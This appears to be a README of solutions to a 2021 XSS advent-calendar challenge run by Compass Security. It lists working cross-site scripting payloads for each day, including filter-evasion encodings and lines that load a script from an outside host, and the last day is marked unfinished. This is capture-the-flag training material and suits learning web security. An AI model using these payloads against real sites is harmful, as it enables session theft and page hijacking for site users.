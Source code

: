 # Merry XmaSS – XSS advent calendar 2021

Find the challenge hosted by [Compass Security](https://www.compass-security.com/de/) here: https://xmass.compass-demo.com/

Use your XSS skills to pop up *alert(1)* windows on every day.

Helpful resources and tools:

* En-/Decoding: https://gchq.github.io/CyberChef/

---

**SPOILER ALERT!** Stop reading here, if you want to solve the challenges yourself.

---

These are some solutions I was able to find, I am sure there are many more. Tested with Firefox Version 95.0 (64-bit) on Windows.

**+++ Day 1 +++**  
https://xmass.compass-demo.com/level1
```
<script>alert(1)</script>
```
**+++ Day 2 +++**  
https://xmass.compass-demo.com/level2
```
a"><script>alert(1)</script
```
alternative solution (*user interaction required*)
```
a" onfocus="alert(1)"
```
**+++ Day 3 +++**  
https://xmass.compass-demo.com/level3
```
"><script>alert(1)</script>
```
**+++ Day 4 +++**  
https://xmass.compass-demo.com/level4
```
a";alert(1);"
```
**+++ Day 5 +++**  
https://xmass.compass-demo.com/level5
```
a</textarea><script>alert(1)</script>
```
**+++ Day 6 +++**  
https://xmass.compass-demo.com/level6
```
<img src="#" onerror="alert(1)"/>
```
**+++ Day 7 +++**  
https://xmass.compass-demo.com/level7 *(use URL below to get the alert window)*
```
https://xmass.compass-demo.com/level7?inject=<script>alert(1)</script>
```
**+++ Day 8 +++**  
https://xmass.compass-demo.com/level8
```
" autofocus onfocus="alert(1)
```
alternativ solution *(mouse cursor has to be in the 'conent area' of the browser)*
```
" onmouseover="alert(1)" style="display: block; position: fixed; top: 0; left: 0; z-index: 99999; width: 9999px; height: 9999px; (mouse cursor musst be on content area of browser window)
```
**+++ Day 9 +++**  
https://xmass.compass-demo.com/level9 *(yes, worked on Day 6 already)*
```
<img src="#" onerror="alert(1)"/>
```
**+++ Day 10 +++**  
https://xmass.compass-demo.com/level10
```
<body onpageshow=alert(1)>
```
**+++ Day 11 +++**  
https://xmass.compass-demo.com/level11
```
<img src="#" Onerror="alert(1)"/>
```
**+++ Day 12 +++**  
https://xmass.compass-demo.com/level12
```
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```
alternatively one character reference is enough
```
<img src="x" onerror="&#97;lert(1)">
```
alternative solution (no `alert(1)` but the script executes)
```
<script src="https://xss.rocks/xss.js"></script>
```
**+++ Day 13 +++**  
https://xmass.compass-demo.com/level13
```
<script src="&#104;&#116;&#116;&#112;&#115;&colon;&sol;&sol;&#120;&#115;&#115;&period;&#114;&#111;&#99;&#107;&#115;&sol;&#120;&#115;&#115;&period;&#106;&#115;"></script>
```
alternatively one character reference is enough
```
<script src="h&#116;tps://xss.rocks/xss.js"></script>
```
**+++ Day 14 +++**  
https://xmass.compass-demo.com/level14
```
\";alert(1);//
```
**+++ Day 15 +++**  
https://xmass.compass-demo.com/level15
```
";document.write('\x3Cscript\x3Eal'+'ert(1)\x3C/script\x3E');//
```
**+++ Day 16 +++**
https://xmass.compass-demo.com/level16
```
<script>alert`1`</script>
```
**+++ Day 17 +++**
https://xmass.compass-demo.com/level17
```
" onerror="alert(1)"
```
**+++ Day 18 +++**
https://xmass.compass-demo.com/level18
```
<img src=# onerror="alert(1)"
```
**+++ Day 19 +++**
https://xmass.compass-demo.com/level19
```
<p data-bind="text: alert(1)"></p>
```
**+++ Day 20 +++**
https://xmass.compass-demo.com/level20

Upload a `.html` file with the following content:
```
<script>alert(1)</script>
```
**+++ Day 21 +++**
https://xmass.compass-demo.com/level21

Upload a `.htm` file with the following content:
```
<script>alert(1)</script>
```
**+++ Day 22 +++**
https://xmass.compass-demo.com/level22
```
tbc
```